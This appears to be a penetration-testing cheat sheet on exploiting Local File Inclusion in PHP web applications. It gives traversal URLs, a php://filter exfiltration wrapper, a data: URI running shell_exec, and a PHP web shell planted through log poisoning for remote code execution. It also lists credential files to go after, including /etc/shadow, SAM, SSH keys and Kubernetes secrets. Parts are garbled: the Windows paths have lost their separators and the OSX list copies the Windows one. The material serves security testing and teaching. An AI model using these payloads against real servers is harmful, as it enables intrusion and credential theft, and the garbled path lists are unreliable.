 # Local File Inclusion (LFI)

A local file inclusion (LFI) vulnerability is the process of including files that are locally present on the target server, through exploitation of vulnerable inclusion procedures implemented in the application.

Local file inclusion vulnerabilites occur when a page receives the path to the file that has to be included as input, which is not properly sanitized, allowing directory traversal characters to be injected.

### Examples

The most basic form of a exploiting a LFI vulnerability looks like the following:

```bash
https://mysecureserver.com/file.php?target=../../../../../etc/passwd
```

If we want to get a file,  it is best to base64 encode it. This will ensure that we can exfiltrate files rather than the server excuting the file. This can be accomplished with the following command:

```php
php://filter/convert.base64-encode/resource=$file
```

Additionally, the following command demonstrates  how we could execute code with the `shell_exec` function:

```bash
data:text/plain,<?php echo shell_exec("whoami") ?>
```

### Common Locations

This section lists common files to look for when testing for Local File Inclusion, I have linked additional lists in the 'References' section.&#x20;

#### Linux

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

#### Windows

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

#### OSX

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### Remote Code Execution via LFI (Log Injection)

Log Injection / Log Poisoning is a technique used to obtain a reverse shell from a LFI vulnerability. In order to make this attack work, an attacker will attempt to inject a malicious payload into the server log.

* If we are able to access server logs such as `/var/log/apache2/access.log` we can modify our `User-Agent` to be a malicious payload which could result in us obtaining remote code execution.&#x20;

```php
# Sample PHP Payload
<?php system($_GET['c']); ?>
```

After injecting the payload, we can access it via the following URL:

```bash
https://$url/var/log/httpd&c=whoami
```

### Additional Notes

* Sometimes during Local File Inclusion, the web server may append something like `.php` or `.config` to the file. For example, including `/etc/passwd` may be rendered as `/etc/passwd.php`. This occurs when the include function uses a parameter like `?page` and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (`%00`) will cause the interpreter to stop reading, this would then allow you to include and view the intended page.
* If you have identified LFI impacting a Linux host, you may be able to access the `.ssh/id_rsa` file of identified users. These are easily identified from reading the contents of the `/etc/passwd` file.&#x20;
* If you have identified an LFI vulnerability, try and read `/var/run/secrets/kubernetes.io/serviceaccount` to see if you can harvest Kubernetes information.

### References

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion" %}

